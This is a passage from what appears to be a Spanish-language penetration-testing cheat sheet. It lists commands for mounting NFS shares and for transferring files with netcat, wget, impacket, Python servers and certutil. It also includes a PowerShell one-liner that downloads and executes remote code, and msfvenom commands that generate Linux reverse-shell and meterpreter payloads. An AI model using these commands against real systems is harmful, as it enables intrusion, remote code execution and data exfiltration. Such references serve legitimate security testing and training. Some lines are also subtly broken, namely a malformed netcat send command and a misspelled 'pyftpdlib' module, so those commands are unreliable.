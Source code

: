 ### Montar carpeta

```
sudo mount -t nfs <ip>:<remote_folder> <local_folder>
```

----

## Transferencia de archivos

### Linux

```
nc -lvp <port> > file (recibe el fichero)
nc <ip> < <file> <port> (envia el fichero)
```

```
wget <url> -O <output>
```

```
impacket-smbserver share $(pwd) -smb2support
```

```
python3 -m http.server <port>
python -m SimpleHTTPServer <port>
```

```
sudo python -m pyftpdlip -p 21 -w
```

### Windows

```
certutil.exe -f -urlcache -split <url>
```

```
powershell IEX(New-Object Net.WebClient).downloadString('<url>')
```

-----------

## msfvenom

Linux

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
```

-----------

## Diccionarios
